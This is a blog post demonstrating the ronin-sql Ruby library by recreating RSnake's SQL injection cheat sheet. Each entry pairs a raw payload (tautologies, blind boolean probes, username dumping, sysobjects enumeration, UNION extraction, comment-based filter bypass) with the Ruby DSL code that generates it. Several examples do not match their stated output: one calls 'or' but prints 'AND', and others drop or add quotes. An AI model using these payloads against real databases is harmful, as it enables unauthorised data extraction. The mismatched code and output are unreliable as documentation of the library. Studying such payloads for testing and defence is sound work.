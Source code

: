 ```yaml
---
layout: post
title: RSnakes SQLi Cheat Sheet using ronin-sql 1.1.0
author: postmodern
tags:
 - ronin
 - sqli
 - rsnake
---
```


After the release of [ronin-sql] 1.0.0, I wondered if we could recreate
[RSnake's SQL Injection Cheat Sheet][1] using the new [Ronin::SQL]
Domain Specific Language (DSL). Let's see how far we can get.

Normal SQL Injection:

{% highlight sql %}
1 OR 1=1
{% endhighlight %}

{% highlight ruby %}
sqli = Ronin::SQL::Injection.new
sqli.or { 1 == 1 }
puts sqli
# => 1 OR 1=1
{% endhighlight %}

Normal SQL Injection using encapsulated data:

{% highlight sql %}
1' OR '1'='1
{% endhighlight %}

{% highlight ruby %}
sqli = Ronin::SQL::Injection.new(escape: :string)
sqli.or { string(1) == string(1) }
puts sqli
# 1' OR '1'='1
{% endhighlight %}

Blind SQL Injection:

{% highlight sql %}
1 AND 1=1
{% endhighlight %}

{% highlight ruby %}
sqli = Ronin::SQL::Injection.new
sqli.or { 1 == 1 }
puts sqli
# 1 AND 1=1
{% endhighlight %}

Blind SQL Injection to attempt to locate `tablename` by brute-force
iteration through table name permutations:

{% highlight sql %}
1' AND 1=(SELECT COUNT(*) FROM tablenames); --
{% endhighlight %}

{% highlight ruby %}
sqli = Ronin::SQL::Injection.new(escape: :string)
sqli.and { select(count).from(:tablenames) == 1 }
puts sqli
# 1 AND (SELECT COUNT(*) FROM tablenames)=1
{% endhighlight %}

Creating errors by calling non-existent tables:

{% highlight sql %}
1' AND non_existant_table = '1
{% endhighlight %}

{% highlight ruby %}
sqli = Ronin::SQL::Injection.new(escape: :string)
sqli.and { non_existant_table == '1' }
puts sqli
# 1' AND non_existant_table='1
{% endhighlight %}

Dumping usernames:

{% highlight sql %}
' OR username IS NOT NULL OR username = '
{% endhighlight %}

{% highlight ruby %}
sqli = Ronin::SQL::Injection.new(escape: :string)
sqli.or { username.is_not(null) }.or { username == '' }
puts sqli
# 1' OR username IS NOT NULL OR username='
{% endhighlight %}

Enumerating through database table names:

{% highlight sql %}
1 AND ASCII(LOWER(SUBSTRING((SELECT TOP 1 name FROM sysobjects WHERE xtype='U'), 1, 1))) > 116
{% endhighlight %}

{% highlight ruby %}
sqli = Ronin::SQL::Injection.new
sqli.and {
  ascii(
    lower(
      substring(
        select(:name).top(1).from(sysobjects).where { xtype == 'U' }, 1, 1
      )
    )
  ) > 116
}
puts sqli
# 1 AND ASCII(LOWER(SUBSTRING((SELECT name TOP 1 FROM sysobjects WHERE xtype='U'),1,1)))>116
{% endhighlight %}

Finding user supplied tables using the `sysObjects` table in SQL Server:

{% highlight sql %}
1 UNION ALL SELECT 1,2,3,4,5,6,name FROM sysObjects WHERE xtype = 'U' --
{% endhighlight %}

{% highlight ruby %}
sqli = Ronin::SQL::Injection.new
sqli.union_all {
  select(1,2,3,4,5,6,name).from(sysObjects).where { xtype == 'U' }
}
puts sqli.to_sql(:terminate => true)
# 1 UNION ALL (SELECT (1,2,3,4,5,6,name) FROM sysObjects WHERE xtype='U');--
{% endhighlight %}

Bypass filters by using `/**/` instead of spaces:

{% highlight sql %}
1/**/UNION/**/SELECT/**/(1,2,3,4,id)/**/FROM/**/users
{% endhighlight %}

{% highlight ruby %}
sqli = Ronin::SQL::Injection.new
sqli.union { select(1,2,3,4,id).from(users) }
puts sqli.to_sql(:space => '/**/')
# 1/**/UNION/**/SELECT/**/(1,2,3,4,id)/**/FROM/**/users
{% endhighlight %}

Not too shabby!

[1]: http://ha.ckers.org/sqlinjection/

[ronin-sql]: https://github.com/ronin-ruby/ronin-sql#readme
[Ronin::SQL]: http://ronin-ruby.github.com/docs/ronin-sql/Ronin/SQL.html
